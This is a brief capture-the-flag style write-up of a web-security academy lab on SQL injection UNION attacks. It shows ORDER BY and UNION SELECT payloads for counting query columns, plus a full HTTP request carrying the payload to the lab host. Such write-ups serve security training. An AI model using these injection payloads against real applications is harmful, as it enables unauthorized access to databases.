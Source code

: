 Title : SQL injection UNION attack, determining the number of columns returned by the query



```
https://vulnerable.site/product?category=Gifts'

```

```
step 2: Use ORDER BY to find the number of columns
```

```
' ORDER BY 1--       ✅ OK
' ORDER BY 2--       ✅ OK
' ORDER BY 3--       ✅ OK
```

```
Step 3: Use UNION SELECT with matching columns

```

```
' UNION SELECT NULL,NULL,NULL-- 

```
payload working
```
' UNION SELECT 'a','b','c'--
```
 
```
GET /filter?category=' UNION SELECT 'a','b','c'-- HTTP/2
Host: 0a79007003852eeb80264e05004c001e.web-security-academy.net
Cookie: session=yXcJwV3ECHB8ZTWopze2GmFgELyvbJWV
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a79007003852eeb80264e05004c001e.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```


`Congratulations, you solved the lab!`

![Screenshot](/home/kali/IMG_0639(2).PNG.jpg)